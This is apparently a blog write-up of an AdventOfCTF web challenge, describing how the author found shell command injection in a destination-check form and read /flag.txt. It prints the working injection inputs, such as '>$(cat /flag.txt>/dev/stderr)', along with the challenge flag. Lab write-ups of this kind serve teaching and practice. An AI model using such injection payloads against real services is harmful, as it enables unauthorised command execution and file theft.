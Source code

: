 +++
author = "Maik de Kruif"
title = "Challenge 12 - AdventOfCTF"
date = 2020-12-14T15:55:21+01:00
description = "A writeup for challenge 12 of AdventOfCTF."
cover = "img/adventofctf/af3424cd215a6459494ae07eab33cb35.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1100

## Description

To ensure a good Christmas we implemented some diagnostic tools. This one checks that the time to a destination is within an acceptable range. The flag is in /flag.txt.

Visit <https://12.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website we're greeted with an input field and a check button. Let's enter some text in the input and press the check button. Initially, nothing happens but after a few seconds we get a result: `1607956922.306628 Destination check was OK`. As the page didn't reload there is probably some javascript in play. Indeed there is, when opening the source, we find a script tag with the following javascript function:

```js
function send() {
  let place = $("#place")[0].value;
  if (place.length > 0) {
    $.post("/", { place: place }, function (data) {
      $("#result")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
  return false;
}
```

If we analyze this function a bit we find that it executes a `POST` request to `/` and puts the result in an HTML element with this selector: `'#result'`.

Let's try some more inputs. Just plain text doesn't seem to change the result much besides the number before "Destination check". If we, however, enter a quote (`"`), we get a different result back:

```text
Something happened: /bin/bash: -c: line 0: unexpected EOF while looking for matching `"'
/bin/bash: -c: line 1: syntax error: unexpected end of file
```

And inputting a backtick (`) returns this error:

```text
Something happened: BusyBox v1.31.1 () multi-call binary.

Usage: nslookup [-type=QUERY_TYPE] [-debug] HOST [DNS_SERVER]

Query DNS about HOST

QUERY_TYPE: soa,ns,a,aaaa,cname,mx,txt,ptr,any
```

### nslookup

I spend quite some time trying to find a way to get out of this command but I could not get anything to work so I took a break.

### Redirection

When I came back, I tried inputting a redirect character (`>`) and it gave a result!

## Getting some output

After entering a redirection character (`>`) we get the following result:

```text
Something happened: /bin/bash: -c: line 0: syntax error near unexpected token `newline'
/bin/bash: -c: line 0: `./check &gt;'
```

This means we can redirect output and thus get arbitrary code execution by putting a sub-command as the output like so:

```bash
> $(ls)
```

But entering this gave an error:

```text
Something happened: /bin/bash: $(ls): ambiguous redirect
```

This means that, while it does work, it does not work directly as the output isn't valid. If we, however, put a sub-command inside a sub-command (`> $($(ls))`), the inner output will be printed:

```text
Something happened: /bin/bash: app.py: command not found
/bin/bash: $($(ls)): ambiguous redirect
```

As we can see, there seems to be an `app.py` file but we don't care about it now. Let's try to cat the flag from the location specified in the challenge description (`/flag.txt`) by entering the following input: `>$($(cat /flag.txt))`. This return the following result:

```text
Something happened: /bin/bash: Congratulations,: command not found
/bin/bash: $($(cat /flag.txt)): ambiguous redirect
```

As we can see, it did read the file. Sadly, however, it only returned the first line...

At this point, I didn't really know what to do but just as I was about to take another break, [@credmp](https://twitter.com/credmp) posted a hint on Twitter. It said the following: "Hint: all error messages are printed on stderr.".

### Redirecting the output

After reading this tweet, I tried the following input: `>$(cat /flag.txt>/dev/stderr)` and it immediately worked! I felt pretty stupid for not having thought about that 😐.

## Solution

So redirecting the output to `stderr` worked and we got the flag: `NOVI{we_are_halfway_to_christmas!}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#12-13).
